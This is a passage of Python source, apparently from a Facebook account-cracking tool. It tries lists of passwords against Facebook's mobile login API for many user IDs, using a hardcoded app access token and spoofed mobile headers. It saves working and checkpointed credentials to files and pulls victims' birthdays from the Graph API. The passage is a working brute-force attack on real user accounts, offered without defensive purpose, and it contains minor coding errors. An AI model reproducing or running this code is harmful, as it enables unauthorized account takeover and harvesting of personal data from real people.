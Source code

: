             break
        else:
            continue

    loop += 1

def apiiii(uid, fii):
    try:
        ua = open("ua", "r").read()
    except IOError:
        ua = "nokiac3-00/5.0 (07.20) profile/midp-2.1 configuration/cldc-1.1 mozilla/5.0 applewebkit/420+ (khtml, like gecko) safari/420+"
    global ok, cp, loop, token, cookie

    sys.stdout.write(f"\r{P}[•] >>>>>> {B} {loop}/{len(id)} {I}OK : {B}{len(ok)} {K}CP : {B}{len(cp)}");sys.stdout.flush()
    for pw in fii:
        pw = pw.lower()
        headers_ = {"x-fb-connection-bandwidth": str(random.randint(20000000.0, 30000000.0)), "x-fb-sim-hni": str(random.randint(20000, 40000)), "x-fb-net-hni": str(random.randint(20000, 40000)), "x-fb-connection-quality": "EXCELLENT", "x-fb-connection-type": "cell.CTRadioAccessTechnologyHSDPA", "user-agent": ua, "content-type": "application/x-www-form-urlencoded", "x-fb-http-engine": "Liger"}
        ses = requests.Session()
        send = ses.get("https://b-api.facebook.com/method/auth.login?format=json&email="+str(uid)+"&password="+str(pw)+"&credentials_type=device_based_login_password&generate_session_cookies=1&error_detail_type=button_with_disabled&source=device_based_login&meta_inf_fbmeta=%20&currently_logged_inlololid=0&method=GET&locale=en_US&client_country_code=US&fb_api_caller_class=com.facebook.fos.headersv2.fb4aorca.HeadersV2ConfigFetchRequestHandler&access_token=350685531728|62f8ce9f74b12f84c123cc23437a4a32&fb_api_req_friendly_name=authenticate&cpl=true", headers=headers_)
        if "session_key" in send.text and "EAAA" in send.text:
            print(f"\r{B} |----> {I}{uid}•{pw}")
            ok.append("%s|%s"%(uid, pw))
            open("OK/%s.json"%(tanggal),"a").write("%s|%s\n"%(uid, pw))
            break
        elif "www.facebook.com" in send.json()["error_msg"]:
            try:
                token  = open('login/token.json','r').read()
                cookie = {'cookie':open('login/cookie.json','r').read()}
                ttl = ses.get("https://graph.facebook.com/%s?access_token=%s"%(uid, token),cookies=cookie).json()["birthday"]
                month, day, year = ttl.split("/")
                month = _bulan_[month]
                print(f"\r{B} |----> {K}{uid}•{pw}•{day} {mont} {year}")
                cp.append("%s|%s"%(uid, pw))
                open("CP/%s.json%"(tanggal),"a").write("%s|%s|%s %s %s\n"%(uid, pw, day, month, year))
                break
            except (KeyError, IOError):
                day = (" ")
                month = (" ")
                year = (" ")
            except:pass
            print(f"\r{B} |----> {K}{uid}•{pw}")
            cp.append("%s|%s"%(uid, pw))
            open("CP/%s.json"%(tanggal),"a").write("%s|%s\n"%(uid, pw))
            break
        else:
            continue
